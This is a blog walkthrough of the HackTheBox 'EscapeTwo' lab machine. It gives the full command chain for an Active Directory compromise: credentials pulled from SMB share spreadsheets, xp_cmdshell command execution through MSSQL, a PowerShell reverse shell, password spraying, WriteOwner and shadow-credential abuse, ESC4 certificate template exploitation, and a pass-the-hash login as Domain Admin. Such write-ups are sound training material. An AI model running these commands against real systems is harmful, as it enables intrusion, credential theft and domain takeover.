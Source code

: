 ```yaml
---
title: "HackTheBox - EscapeTwo"
date: 2025-05-22
draft: false
series: "HTB Machines"
tags: ["active directory", "hackthebox", "windows"]
---
```


# EscapeTwo Walkthrough
In the machine description, we have credentials to start the machine, `rose` and `KxEPkKe6R8su`.

---


## 1. Enumeration
### 1.1 NMAP
As usual, let’s start by checking the open ports on the machine

<!-- ----
> TESTE

- TESTE2

~~strikethrough~~

`TESTE3`

---- -->

```bash
nmap -p- --open -T4 10.10.11.51 -Pn -oA nmap-out
```
**Key findings:**

![nmap](/images/escapetwo-nmap.png)

### 1.2  SMB Shares
Enumerating SMB with smbclient and `rose` credentials:

![smb enum](/images/escapetwo-smb.png)

> **Finding:** `Users` and `Accounting Department` shares.

By checking the `Accounting Department` share, we can see two `.xlsx` files. Let’s download them and check their content.

![smb enum](/images/escapetwo-smb1.png)

Inside `accounts.xlsx -> xl -> sharedStrings.xml` we can find some credentials. Let’s take note of them and move on
![sharedStrings](/images/escapetwo-sharedStrings.png)
![creds](/images/escapetwo-creds.png)

> Finding 1: `angela / 0fwz7Q4mSpurIt99`

> Finding 2: `oscar / 86LxLBMgEWaKUnBG`

> Finding 3: `kevin / Md9Wlq1E5bZnVDVo`

> Finding 4: `sa / MSSQLP@ssw0rd!`


In general, `sa` is the common admin user for MSSQL databases. Let’s try to explore this first using Impacket’s mssqlclient script.

### 1.3 MSSQL Service
![mssql](/images/escapetwo-mssql.png)

> Great, now we are db admin.

By default, xp_cmdshell is disabled in MSSQL, let's enable it.

```bash
enable_xp_cmdshell
```
![enable cmdshell](/images/escapetwo-enablecmd.png)

To obtain more data, we can check default files from MSSQL deployment:

```bash
exec xp_cmdshell 'type \SQL2019\ExpressAdv_ENU\sql-Configuration.INI'
```

![new creds](/images/escapetwo-newcreds.png)

> **Finding:** New credential, `SEQUEL\sql_svc / WqSZAF6CysDQbGb3`

----

## 2. Shell as sql_svc
Since we can execute commands with the SQL service, we can try a PowerShell reverse shell. We can generate it using [RevShell Generator](https://www.revshells.com/).

### 2.1 Powershell Payload - Base64 encoded

![revshell](/images/escapetwo-revshell.png)

### 2.2 Receiving connection
![revshell1](/images/escapetwo-revshell1.png)

> **Now we are inside the box!**

---

## 3. Lateral Movement
Looking for some users at `C:/Users/` that have logged into the machine we can see just `ryan` as a possible next goal. Let's try a password spray with all the credentials that we've got.

### 3.1 Password spray
Putting all the previous password on a file called passwords.txt, let's start the attack with netexec.

![password spray](/images/escapeTwo-passwordSpray.png)

> **Finding:** New valid credential for `ryan` user.

### 3.1 Evil-winrm with `ryan`
Let's try a shell with `ryan` user.

![shell as ryan](/images/escapetwo-ryanshell.png)

> **Great, we succesfull did a lateral movement!**
----

## 4. Privillege Escalation
### 4.1 BloodHound
Let's get some information with Bloodhound and analyse it.

```bash
bloodhound-python -u ryan -p "WqSZAF6CysDQbGb3" -d sequel.htb -ns 10.10.11.51 -c All
```

![bloodhound](/images/escapetwo-bloodhound.png)

### 4.2 WriteOwner Abuse
By analysing the results, we can se that use `ryan` has `WriteOwner` rights on `ca_svc` object, this can result in a full control of that object. Let's explore this.

![abuse writeowner](/images/escapetwo-abuseOwner.png)

Grant ourselves ownership of the object in AD:

```bash
bloodyAD --host '10.10.11.51' -d 'sequel.htb' -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan'
```

Give ourselves FullControl over the ca_svc user, allowing us to add a shadow credential on next step:

```bash
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' '10.10.11.51'/"ryan":"WqSZAF6CysDQbGb3"
```

![abuse owner](/images/escapetwo-abuseOwner1.png)

Now we can add a shadow credential:

```bash
certipy-ad shadow auto -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 -account 'ca_svc' -dc-ip 10.10.11.51  
```

![shadow cred](/images/escapetwo-shadowCreds.png)

### 4.3 Enumerating ADCS Vulnerabilities
We can use certipy-ad tool to enumerate possible vulnerabilities in ADCS.
```bash
certipy-ad find -u 'ca_svc' -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip '10.10.11.51' -vulnerable
```
![enum-adcs](/images/escapetwo-enum-adcs.png)

> **Vulnerable to ESC4!**

### 4.4 ESC4 Abuse
ESC4 (ESCalation 4) refers to a privilege escalation path where an attacker abuses the ability to manage certificate templates in an ADCS environment. Specifically, the attacker has permissions like WriteOwner, WriteDacl, WriteProperty, or AllExtendedRights over a certificate template object.

By modifying the template's settings, the attacker can make it vulnerable, then request a certificate to impersonate privileged users, such as Domain Admins or Enterprise Admins.

Using `certipy-ad`to exploit it:

 We have to do this very quickly due to the error *CERTSRV_E_SUBJECT_DNS_REQUIRED - The Domain Name System (DNS) name is unavailable and cannot be added to the Subject Alternate name*

Cause ca_svc has full control over the template we'll make it vulnerable to ESC1 at first.

```bash
certipy-ad template -u 'ca_svc' -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip '10.10.11.51' -template 'DunderMifflinAuthentication' -write-default-configuration -no-save
```

![esc4-pt1](/images/escapetwo-esc4-1.png)

Now, I can request for a domain administrator certificate using the modified template:

```bash
certipy-ad req -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -template DunderMifflinAuthentication -upn administrator@sequel.htb
```

![esc4-pt2](/images/escapetwo-esc4-2.png)


With the certificate, we can retrieve the NTLM hash for the account:

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.51
```
![esc4-pt3](/images/escapetwo-esc4-3.png)

### 4.5 Shell as Domain Admin
Now, just evil-winrm with the new hash.

```bash
evil-winrm -u 'administrator' -H 7a8d4e04986afa8ed4060f75e5a0b3ff -i 10.10.11.51 
```

![esc4-pt2](/images/escapetwo-domainadmin.png)